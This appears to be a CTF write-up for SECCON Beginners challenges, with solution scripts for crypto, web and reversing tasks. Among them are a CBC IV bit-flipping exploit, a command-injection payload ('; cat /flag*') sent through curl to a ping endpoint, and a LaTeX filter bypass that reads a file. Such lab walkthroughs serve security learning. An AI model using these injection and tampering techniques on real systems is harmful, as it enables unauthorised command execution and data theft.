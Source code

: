 # SECCON Beginners CTF 2021

- https://github.com/SECCON/Beginners_CTF_2022

## Crypto

### CoughingFox

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=300s

#### Solution 1

```python
#!/usr/bin/env python3
from gmpy2 import isqrt
# c = (f + i)**2 + i
# f = sqrt(c - i) - i
# sqrt() が整数になるかどうかで i を判定する
cipher = [12147, 20481, 7073, 10408, 26615, 19066, 19363, 10852, 11705, 17445, 3028, 10640, 10623, 13243, 5789, 17436, 12348, 10818, 15891, 2818, 13690, 11671, 6410, 16649, 15905, 22240, 7096, 9801, 6090, 9624, 16660, 18531, 22533, 24381, 14909, 17705, 16389, 21346, 19626, 29977, 23452, 14895, 17452, 17733, 22235, 24687, 15649, 21941, 11472]
length = len(cipher)
flag = [0] * length
for c in cipher:
    for i in range(length):
        root = isqrt(c - i)
        if root**2 == c - i:
            flag[i] = root - i
            break
print(''.join([chr(ch) for ch in flag]))
```

### PrimeParty

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=948s

### command

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2345

#### Solution 1

```python3
#!/usr/bin/env python3
# 1ブロック (16bytes) 以下
# CBC ビットフリップ: IV を改ざんして任意の平文を作る
from Crypto.Util.Padding import pad
from Crypto.Util.strxor import strxor
from pwn import log, process, remote
# io = process('./chal.py')
io = remote('::1', 5555)
io.sendlineafter(b'> ', b'1')
io.sendlineafter(b'> ', b'fizzbuzz')
io.recvuntil(b'Encrypted command: ')
inp = bytes.fromhex(io.recvline(keepends=False).decode())
iv, enc = inp[:16], inp[16:]
plain = pad(b'fizzbuzz', 16)
target = pad(b'getflag', 16)
newiv = strxor(strxor(iv, plain), target)
cmd2 = (newiv+enc).hex()
io.sendlineafter(b'> ', b'2')
io.sendlineafter(b'Encrypted command> ', cmd2.encode())
log.success('FLAG: %s', io.recvline().decode())
io.sendlineafter(b'> ', b'3')
```

## Web

### util

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=550s

#### Solution 1

- 開発者ツール > Network > Name > `ping` を右クリック、Copy > Copy as cURL (bash)

```zsh
curl 'https://172.23.177.114/util/ping' \
  -H 'Content-Type: application/json' \
  --data-raw '{"address":"127.0.0.1; cat /flag*"}' \
  --insecure |
  jq .result | grep -o 'ctf4b{.*}'
```

### textex

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2070

#### Solution 1

```tex
\documentclass{article}
\usepackage{verbatim}
\newcommand{\ag}{ag}
\begin{document}
\verbatiminput{fl\ag}
\end{document}
```

## reversing

### quiz

#### Solution 1

```
strings quiz|grep -o 'ctf4b{.*}'
```
